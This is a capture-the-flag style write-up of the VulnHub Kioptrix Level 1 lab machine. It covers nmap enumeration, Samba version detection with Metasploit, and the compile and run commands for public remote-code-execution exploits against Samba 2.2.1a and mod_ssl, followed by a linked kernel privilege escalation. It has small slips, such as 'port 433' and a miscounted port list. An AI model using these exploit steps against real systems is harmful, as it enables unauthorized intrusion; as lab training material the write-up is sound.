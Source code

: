 ```yaml
---
title: "VulnHub - Kioptrix #1"
author: Nasrallah
description: ""
date: 2022-12-23 00:00:00 +0000
categories: [VulnHub]
tags: [vulnhub, linux, easy, ssl, smb, samba]
img_path: /assets/img/vulnhub/kioptrix1
---
```



---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Kioptrix level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/) from [VulnHub](https://www.vulnhub.com/).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 -p- {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

- -p-: Scan all ports.

```terminal
Nmap scan report for 192.168.56.4
Host is up (0.0026s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION 
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey:                                                                 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
| http-methods:     
|_  Potentially risky methods: TRACE
111/tcp   open  rpcbind     2 (RPC #100000)    
| rpcinfo:                                                                                                                                                    
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind                                                                                                                    
|   100000  2            111/udp   rpcbind                  
|   100024  1          32768/tcp   status
|_  100024  1          32768/udp   status      
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-09-26T09:32:06
|_Not valid after:  2010-09-26T09:32:06
|_ssl-date: 2022-11-30T12:28:51+00:00; +4h59m59s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_DES_64_CBC_WITH_MD5
|_http-title: 400 Bad Request
32768/tcp open  status      1 (RPC #100024)
MAC Address: 08:00:27:AF:BE:C3 (Oracle VirtualBox virtual NIC)

Host script results:
|_clock-skew: 4h59m58s
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```

We found 6 open ports:

 - 22/OpenSSH 2.9p2

 - 80/Apache/1.3.20

 - 139/netbios-ssn Samba smbd

 - 443/mod_ssl/2.8.4

### SMB

We found out from the scan that samba is running on port 139 but nmap couldn't detect a version, for that we're going to use the `metasploit` module `auxiliary/scanner/smb/smb_version`.

```bash
[msf](Jobs:0 Agents:0) >> use auxiliary/scanner/smb/smb_version
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_version) >> set rhosts 192.168.56.4
rhosts => 192.168.56.4
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_version) >> run

[*] 192.168.56.4:139      - SMB Detected (versions:) (preferred dialect:) (signatures:optional)
[*] 192.168.56.4:139      -   Host could not be identified: Unix (Samba 2.2.1a)
[*] 192.168.56.4:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_version) >>
```

The version of the running Samba is 2.2.1a.

## **Foothold**

### Samba

Searching for vulnerabilities in Samba, i found this remote code execution [exploit](https://www.exploit-db.com/exploits/10)

![](1.png)

Let's download the exploit, compile and run it.

```bash
$ gcc exploit.c -o exploit

$ ./exploit -v 192.168.56.4 -b 0
```

![](2.png)

Great! We got a shell as root.

### SSL

On port 433, we have mod_ssl/2.8.4 which is also vulnerable to a remote code execution. We can find a working exploit [here](https://github.com/heltonWernik/OpenLuck).

After downloading the exploit, we need to download the ssl-dev library.

```bash
sudo apt install ssl-dev library
```

Now we compile the exploit with the following command:

```bash
gcc -o OpenFuck OpenFuck.c -lcrypto
```

And run the compiled exploit with this command:

```bash
./OpenFuck 0x6b 192.168.56.4 443 -c 40
```

![](3.png)

We got a shell as `apache`, which means it's privilege escalation time.

## **Privilege Escalation**

By running `uname -a`, we find that the version of linux running is `linux 2.4.7-10` and it's vulnerable to Local Privilege Escalation. Here is the [exploit](https://www.exploit-db.com/exploits/3)

Let's upload the exploit to the target, compile it and run it.

![](4.png)



---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
